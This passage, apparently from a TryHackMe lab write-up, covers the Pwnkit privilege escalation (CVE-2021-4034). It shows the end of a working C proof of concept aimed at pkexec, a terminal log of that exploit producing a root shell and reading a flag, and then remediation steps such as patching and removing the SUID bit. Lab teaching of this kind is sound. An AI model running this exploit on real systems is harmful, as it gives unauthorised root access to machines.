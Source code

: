 ```bash
        system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
        system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
        fp = fopen("pwnkit/pwnkit.c", "w");
        fprintf(fp, "%s", shell);
        fclose(fp);
        system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
        char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
        execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
tryhackme@pwnkit:~/pwnkit$ gcc cve-2021-4034-poc.c -o exploit
tryhackme@pwnkit:~/pwnkit$ ./exploit 
# 
# whoami
root
# cd /root      
# ls
flag.txt  snap
# cat flag.txt
THM{CONGRATULATIONS-YOU-EXPLOITED-PWNKIT}

```

----

# Task 4 Tutorial Remediations
----

>>Now that we've seen the devastating impact of CVE-2021-4034, how can we protect against it?

>>Fortunately, developers tend to be fairly fast when it comes to developing patches for critical vulnerabilities. As a prime example: at the time of writing, Canonical have already released patched versions of the Polkit package in the APT package manager for all versions of Ubuntu which are not end-of-life. The patched version can be installed with a simple apt upgrade — e.g. sudo apt update && sudo apt upgrade.

>>In distributions which have not yet released patched versions of the package, the recommended hotfix is to simply remove the SUID bit from the pkexec binary. This can be done with a command such as the following:
```
sudo chmod 0755 `which pkexec`
```
>>This is far from ideal, however, it works as a temporary solution until more distributions start packaging versions of polkit that are patched against Pwnkit.

>>It should be noted that there are many variations of the Pwnkit exploit using different environment variables and exploiting the vulnerability in different ways. Some of these leave traces and logs behind, others do not.

>>You can check to ensure that a system is patched by attempting to run a copy of the exploit against it. If the exploit returns the pkexec help menu then the system is patched:
